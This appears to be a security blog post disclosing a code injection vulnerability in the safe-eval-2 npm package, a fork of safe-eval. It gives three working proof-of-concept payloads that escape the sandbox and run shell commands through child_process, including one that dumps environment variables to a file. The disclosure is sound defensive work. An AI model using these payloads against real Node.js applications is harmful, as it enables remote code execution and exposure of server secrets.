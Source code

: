 ```yaml
---
title: "Disclosing code injection vulnerabilities in safe-eval-2 npm package"
description: >-
  A project fork is not without risks, and this time it's the safe-eval-2 npm package that is vulnerable to code injection attacks.
pubDate: '2024-04-26'
categories: ['']
keywords: []
slug: 'disclosing-code-injection-vulnerabilities-in-safe-eval-2-npm-package'
draft: false
tags: ['nodejs', 'security', 'vulnerability', 'safe-eval']
image: ~/assets/images/blog/safe-eval-2-cve-report.jpeg
---
```


During a security research as part of my upcoming [Code Injection book about Node.js Secure Coding](/book/code-injection) I audited several npm packages and found a code injection vulnerability in the [safe-eval-2](https://www.npmjs.com/package/safe-eval-2?activeTab=dependents) npm package.

This package is a fork of the original `safe-eval` package, which was supposed to be a promise for a secure JavaScript `eval()` function, but history proved otherwise. The original `safe-eval` package was found to be vulnerable to code injection attacks multiple times, and the `safe-eval-2` npm package forked by another user ([lcnvdl](https://www.npmjs.com/~lcnvdl)), included some commits, and published as a new version and alternative to the original package, that is supposed to be secure.

Luckily, `safe-eval-2` doesn't include many downloads or dependant packages, but it's still important to disclose the vulnerability an create a CVE identifier for it so that the community can be aware of the risks of using this package.

![safe-eval-2 npm package on the npm registry](/images/blog/safe-eval-2-on-npm-registry.png)

## Code injection in safe-eval and safe-eval-2 vulnerability details

There are many ways to bypass the security sandbox of `safe-eval` and all versions are now considered vulnerable and JavaScript developers **should not** use it in their applications.

Following are publicly known proof-of-concept payloads that attackers could employ to exploit server-side JavaScript applications running Node.js or other compatible runtimes that support `safe-eval` or `safe-eval-2`:

```javascript
var safeEval = require('safe-eval')

let code = `
(function () {
    let ret = hasOwnProperty;
    ret.constructor('return process')().mainModule.require('child_process').execSync('touch flag');
}());
`
safeEval(code);
```

The above code snippet demonstrates an exploit in which an immediately invoked function expression (IIFE) uses the `hasOwnProperty` method to access the `process` object and execute a shell command to create a file named `flag` in the root directory of the running Node.js server.

Another proof-of-concept payload that demonstrates a code injection vulnerability in `safe-eval` is:

```javascript
var safeEval = require('safe-eval')

let code = ` (function() { 
    try { 
        __defineGetter__("x", );
    } catch(ret){
        ret.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch flag'); 
    }}
)()
`

safeEval(code);
```

In this case, the exploit uses the `__defineGetter__` method to trigger an error, then using the Error object, traverse the prototype chain and access the `process` object to execute a shell command that creates a file named `flag` in the root directory of the Node.js server.

Well, `safe-eval-2` is also vulnerable. Here are a few examples of how to exploit the `safe-eval-2` package:

```javascript
const safeEval = require("safe-eval-2");

const code = `
    
    (function() {
      // using the hasOwnProperty method to access the process object and execute a shell command
      hasOwnProperty.__proto__.constructor('return process')().mainModule.require('child_process').execSync('env > /tmp/rce1');

      // using a failed import to access the process object through the Error object and execute a shell command 
      // import('test').catch((e)=>{})['constructor']['constructor']('return process')().mainModule.require('child_process').execSync('touch /tmp/rce2')
    })()
    
  `;

safeEval(code);
```

## Vulnerability disclosure

This code injection vulnerability affects all known versions of `safe-eval-2` which to this date is `0.4.2` and prior.

Since the `safe-eval-2` package is a fork of the original `safe-eval` package, and not allowing for new issues to be reported, nor isn't a great risk to the community due to the low usage, I am going to disclose this vulnerability publicly through this blog post and an issue opened in the upstream project `safe-eval` repository.

## Learn how to mitigate code injection

As I mentioned in the opening paragraph, I am working on a book about secure coding in Node.js that focuses entirely on code injection vulnerabilities in JavaScript and the Node.js runtime.

You'll learn how to mitigate the type of code injection vulnerabilities like I shared here about `safe-eval-2` as well as different exploitation methods and payloads. If you are interested in learning more about this topic, I invite you to get the book and level up on security skills as a developer: [Node.js Secure Coding: Mitigating and Exploiting Code Injection Vulnerabilities](/book/code-injection).

